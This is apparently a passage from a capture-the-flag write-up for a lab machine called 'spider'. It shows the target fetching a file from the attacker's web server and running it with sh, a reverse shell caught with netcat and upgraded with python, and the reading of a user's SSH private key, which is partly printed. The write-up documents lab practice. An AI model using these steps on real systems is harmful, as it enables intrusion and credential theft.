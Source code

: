 The target connects back to our webserver grabs index.html and passes its contents to sh.

```js
$ sudo python3 -m http.server 80
Serving HTTP on 0.0.0.0 port 80 (http://0.0.0.0:80/) ...
10.129.48.111 - - [30/May/2021 12:27:29] "GET / HTTP/1.1" 200 -
```

This results in a reverse shell for us which we upgrade using python.

```js
$ nc -lnvp 7575
Ncat: Version 7.91 ( https://nmap.org/ncat )
Ncat: Listening on :::7575
Ncat: Listening on 0.0.0.0:7575
Ncat: Connection from 10.129.48.111.
Ncat: Connection from 10.129.48.111:58738.
bash: cannot set terminal process group (1527): Inappropriate ioctl for device
bash: no job control in this shell
chiv@spider:/var/www/webapp$ python3 -c 'import pty; pty.spawn("/bin/bash")'
python3 -c 'import pty; pty.spawn("/bin/bash")'
chiv@spider:/var/www/webapp$ export TERM=xterm
export TERM=xterm
chiv@spider:/var/www/webapp$ ^Z
[1]+  Stopped                 nc -lnvp 7575
$ stty raw -echo;fg
nc -lnvp 7575

chiv@spider:/var/www/webapp$
```

We are now able to grab the user flag on the machine.

```js
chiv@spider:~$ wc -c user.txt
33 user.txt
```

# Root
There is also an id_rsa in chiv's home directory which we can use to have an even better shell on the machine.

```js
chiv@spider:~$ cat .ssh/id_rsa
-----BEGIN RSA PRIVATE KEY-----
MIIEpAIBAAKCAQEAmGvQ3kClVX7pOTDIdNTsQ5EzQl+ZLbpRwDgicM4RuWDvDqjV
gjWRBF5B75h/aXjIwUnMXA7XimrfoudDzjynegpGDZL2LHLsVnTkYwDq+o/MnkpS
U7tVc2i/LtGvrobrzNRFX8taAOQ561iH9xnR2pPGwHSF1/rHQqaikl9t85ESdrp9
MI+JsgXF4qwdo/zrgxGdcOa7zq6zlnwYlY2zPZZjHYxrrwbJiD7H2pQNiegBQgu7
BLRlsGclItrZB+p4w6pi0ak8NcoKVdeOLpQq0i58vXUCGqtp9iRA0UGv3xmHakM2
VTZrVb7Q0g5DGbEXcIW9oowFXD2ufo2WPXym0QIDAQABAoIBAH4cNqStOB6U8sKu
6ixAP3toF9FC56o+DoXL7DMJTQDkgubOKlmhmGrU0hk7Q7Awj2nddYh1f0C3THGs
hx2MccU32t5ASg5cx86AyLZhfAn0EIinVZaR2RG0CPrj40ezukWvG/c2eTFjo8hl
Z5m7czY2LqvtvRAGHfe3h6sz6fUrPAkwLTl6FCnXL1kCEUIpKaq5wKS1xDHma3Pc
XVQU8a7FwiqCiRRI+GqJMY0+uq8/iao20jF+aChGu2cAP78KAyQU4NIsKNnewIrq
54dWOw8lwOXp2ndmo3FdOfjm1SMNYtB5yvPR9enbu3wkX94fC/NS9OqLLMzZfYFy
f0EMoUECgYEAxuNi/9sNNJ6UaTlZTsn6Z8X/i4AKVFgUGw4sYzswWPC4oJTDDB62
nKr2o33or9dTVdWki1jI41hJCczx2gRqCGtu0yO3JaCNY5bCA338YymdVkphR9TL
j0UOJ1vHU06RFuD28orK+w0b+gVanQIiz/o57xZ1sVNaNOyJUlsenh8CgYEAxDCO
JjFKq+0+Byaimo8aGjFiPQFMT2fmOO1+/WokN+mmKLyVdh4W22rVV4v0hn937EPW
K1Oc0/hDtSSHSwI/PSN4C2DVyOahrDcPkArfOmBF1ozcR9OBAJME0rnWJm6uB7Lv
hm1Ll0gGJZ/oeBPIssqG1srvUNL/+sPfP3x8PQ8CgYEAqsuqwL2EYaOtH4+4OgkJ
mQRXp5yVQklBOtq5E55IrphKdNxLg6T8fR30IAKISDlJv3RwkZn1Kgcu8dOl/eu8
gu5/haIuLYnq4ZMdmZIfo6ihDPFjCSScirRqqzINwmS+BD+80hyOo3lmhRcD8cFb
0+62wbMv7s/9r2VRp//IE1ECgYAHf7efPBkXkzzgtxhWAgxEXgjcPhV1n4oMOP+2
nfz+ah7gxbyMxD+paV74NrBFB9BEpp8kDtEaxQ2Jefj15AMYyidHgA8L28zoMT6W
```